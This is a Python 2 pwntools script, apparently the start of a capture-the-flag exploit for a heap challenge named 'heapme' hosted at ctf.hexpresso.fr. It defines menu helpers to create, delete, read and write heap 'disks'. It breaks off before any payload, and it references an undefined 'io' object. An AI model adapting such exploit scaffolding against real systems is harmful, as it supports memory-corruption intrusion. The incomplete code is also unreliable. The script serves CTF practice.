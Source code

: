 Python script:

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *
import struct
import sys
import ssl


exe = ELF("heapme")
hostname = "ctf.hexpresso.fr"
context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)
context.load_cert_chain(certfile="client.pem")
context.load_verify_locations(cafile="server.crt")
context.verify_mode = ssl.CERT_REQUIRED
sock = socket.create_connection((hostname, 4242))
ssock = context.wrap_socket(sock, server_hostname=hostname)


def createDisk(size, index):
    index = str(index)
    size = str(size)
    io.recvuntil('Command: ')
    io.sendline('0')
    io.recvuntil('Size: ')
    io.sendline(size)
    io.recvuntil('Index: ')
    io.sendline(index)


def deleteDisk(index):
    index = str(index)
    io.recvuntil('Command: ')
    io.sendline('3')
    io.recvuntil('Index: ')
    io.sendline(index)


def readDisk(index):
    index = str(index)
    io.recvuntil('Command: ')
    io.sendline('1')
    io.recvuntil('Index: ')
    io.sendline(index)
    io.recvuntil('Data: ')
    disk = io.recvuntil('\n')
    return (disk)


def writeDisk(index, data):
    index = str(index)
    io.recvuntil('Command: ')
    io.sendline('2')
    io.recvuntil('Index: ')
    io.sendline(index)
    io.recvuntil('Data: ')
    io.sendline(data)


def final(index):
    index = str(index)
```